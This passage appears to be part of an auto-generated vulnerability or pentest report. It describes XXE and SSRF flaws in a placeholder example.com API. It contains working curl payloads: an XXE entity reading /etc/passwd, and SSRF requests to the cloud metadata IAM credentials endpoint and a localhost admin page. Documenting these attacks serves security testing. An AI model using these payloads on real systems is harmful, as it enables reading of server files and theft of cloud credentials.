 ```bash
curl -X POST http://example.com/api/import -H "Content-Type: application/xml" -d '<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><test>&xxe;</test>'
```

#### Required Tools

- XML Editor
- XXEinjector
- Burp Suite

#### Potential Impact

- Local file disclosure (configuration files, credentials, etc.)
- Server-side request forgery (SSRF) through XXE
- Remote code execution in certain scenarios
- Denial of service through resource exhaustion
- Server information disclosure
- Service account compromise

---

### Server-Side Request Forgery (SSRF) (High)

**Affected Component:** http://example.com/api/fetch-resource (url parameter)

**Description:** An attacker manipulates the application to make server-side requests to internal or external resources. This can allow access to internal services, scan internal networks, steal metadata from cloud environments, or launch secondary attacks from the server's perspective.

#### Step-by-Step Exploitation

1. Navigate to the vulnerable function at: http://example.com/api/fetch-resource
2. Modify the url parameter to point to internal resources
3. Test access to localhost, private networks, or cloud metadata services
4. Extract sensitive information from internal resources

#### Example Payloads

```
https://vulnerable-site.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

#### Code Examples

#### Command Examples

```bash
curl -X GET "http://example.com/api/fetch-resource?url=http://169.254.169.254/latest/meta-data/"
```

```bash
curl -X GET "http://example.com/api/fetch-resource?url=http://localhost:8080/admin"
```

#### Required Tools
